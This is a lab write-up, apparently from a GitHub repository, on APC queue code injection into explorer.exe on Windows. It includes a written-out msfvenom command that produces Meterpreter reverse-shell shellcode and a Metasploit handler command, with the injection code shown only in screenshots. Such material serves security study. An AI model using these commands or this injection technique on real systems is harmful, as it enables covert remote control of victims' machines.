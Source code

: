 # Table of Contents  

- [APC Queue Code Injection](#apc-queue-code-injection)
- [Execution](#execution)
- [States](#states)
  * [Alertable State](#alertable-state)
  * [Non-Alertable State](#non-alertable-state)
- [Powershell -sta](#powershell--sta)
- [References](#references)

# APC Queue Code Injection

This lab looks at the APC (Asynchronous Procedure Calls) queue code injection.

Some simplified context around threads and APC queues:

<ul>
 <li>Threads execute code within processes</li>
 <li>Threads can execute code asynchronously by leveraging APC queues</li>
 <li>Each thread has a queue that stores all the APCs</li>
 <li>Application can queue an APC to a given thread (subject to privileges)</li>
 <li>When a thread is scheduled, queued APCs get executed</li>
 <li>Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an alertable state (i.e SleepEx)</li>
</ul>

# Execution

A high level overview of how this lab works:

<ul>
 <li>Write a C++ program apcqueue.exe that will:</li>
  <ul>
   <li>Find explorer.exe process ID</li>
   <li>Allocate memory in explorer.exe process memory space</li>
   <li>Write shellcode to that memory location</li>
   <li>Find all threads in explorer.exe</li>
   <li>Queue an APC to all those threads. APC points to the shellcode</li>
  </ul>
 <li>Execute the above program</li>
 <li>When threads in explorer.exe get scheduled, our shellcode gets executed</li>
 <li>Meterpreter shells</li>
</ul>

Let's start by creating a meterpreter shellcode to be injected into the victim process:

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c```

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/0dfb28ae-e96e-46bc-a456-cbded60b1e74)

I will be injecting the shellcode into ```explorer.exe``` since there's usually a lot of thread activity going on, so there is a better chance to encounter a thread in an alertable state that will kick off the shellcode. I will find the process I want to inject into with ```Process32First``` and ```Process32Next``` calls:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/a193702e-2659-4f2f-97e5-e49d460be6cb)

Once explorer PID is found, we need to get a handle to the explorer.exe process and allocate some memory for the shellcode. The shellcode is written to explorer's process memory and additionally, an APC routine, which now points to the shellcode, is declared:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/01153163-bbc4-41ca-8033-65d934a8fbed)

If we compile and execute ```apcqueue.exe```, we can indeed see the shellcode gets injected into the process successully:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/556f6b57-eaae-40e4-a3d6-28e73bd70c50)

A quick detour, the below shows a screenshot from the Process Hacker where our malicious program has a handle to explorer.exe, good to know for debugging and troubleshooting:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/78c455cb-2521-489b-837c-0331d2a28abc)

Back to the code, we can now enumerate all threads of explorer.exe and queue an APC (points to the shellcode) to them:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/94350f26-3b24-455b-88bb-cbe9945f57ee)

Switching gears to the attacking machine, let's fire up a multi handler and set an ```autorunscript``` to migrate meterpreter sessions to some other process before they die with the dying threads:

```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
set autorunscript post/windows/manage/migrate
```

Once the ```apcqueue``` is compiled and run,  a meterpreter session is received - the technique worked:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/19be68e9-9a50-4e3b-8f05-10dd0a4550d5)

# States

As mentioned earlier, in order for the APC code injection to work, the thread to which an APC is queued, needs to be in an ```alertable``` state. 

To get a better feel of what this means, I created another project called ```alertable``` that only did one thing, slept for 60 seconds. The application was sent to sleep using (note the important second parameter):

```
DWORD SleepEx(
  DWORD dwMilliseconds,
  BOOL  bAlertable
);
```

Let's put the new project to sleep in both alertable and non-alertable states and see what heppens when an APC is queued to it.

# Alertable State

Let's compile the ```alertable.exe``` binary with ```bAleertable = true``` first and then launch the ```apcqueue.exe```.

Since ```alertable.exe``` was in an alertable state, the code got executed immediately and a meterpreter session was established:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/4b335638-46f9-4133-bc64-2f9249eb5cda)

# Non-Alertable State

Now let's recompile ```alertable.exe``` with ```bAlertable == false``` and try again, shellcode does not get executed:

![image (1)](https://github.com/0x074b/Code.Process-Injection/assets/83349783/fcabb3d3-98b4-4bdf-9f54-2353fd2afcbc)

# Powershell -sta

An interesting observation is that if you try injecting into powershell.exe which was started with a ```-sta``` switch (Single Thread Apartment), we do not need to spray the APC across all its threads, main thread is enough and gives a reliable shell:

![apc-powershell](https://github.com/0x074b/Code.Process-Injection/assets/83349783/618ba99e-8e65-431b-90b7-a18042fa5e2c)

Note that the injected powershell process becomes unresponsive. 

# References

> https://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/
